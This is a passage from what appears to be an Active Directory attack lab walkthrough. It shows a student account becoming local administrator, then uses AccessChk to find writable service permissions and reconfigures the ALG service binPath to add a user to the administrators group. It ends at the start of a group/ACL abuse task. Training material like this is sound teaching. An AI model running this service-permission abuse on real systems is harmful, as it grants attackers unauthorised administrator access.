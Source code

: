 We can see that the `us\studentuser51` is a local administrator now.
Just logoff and logon again and we have local administrator privileges.

```
PS C:\Users\studentuser51> net localgroup administrators

[SNIP]

Members
-------------------------------------------------------------------------------
Administrator
US\Domain Admins
US\studentuser51

[SNIP]
```

**AccessChk**

The same attack can be executed with `accessch64.exe` from Sysinternals.

```
PS C:\AD\Tools> C:\AD\Tools\AccessChk\accesschk64.exe -uwcqv 'studentuser51' *

[SNIP]

RW ALG
        SERVICE_ALL_ACCESS

[SNIP]
```

We can see that the `studentuser51` has Full Permissions on ALG service.
Let's abuse the permissions manually.

```
PS C:\AD\Tools> sc config ALG binPath= "net localgroup administrators us\studentuserx /add"

[SC] ChangeServiceConfig SUCCESS
```

---
---

## Domain Privilege Escalation via Group/ACL Abuse

### Lab: Hands-On #05.2

#### Tasks

- Identify a machine in the domain where `studentuser51` has local administrative access due to group membership

#### Tools


[us-mgmt]: PS C:\Users\studentuser51\Documents> $env:username
[us-mgmt]: PS C:\Users\TEMP\Documents> $env:computername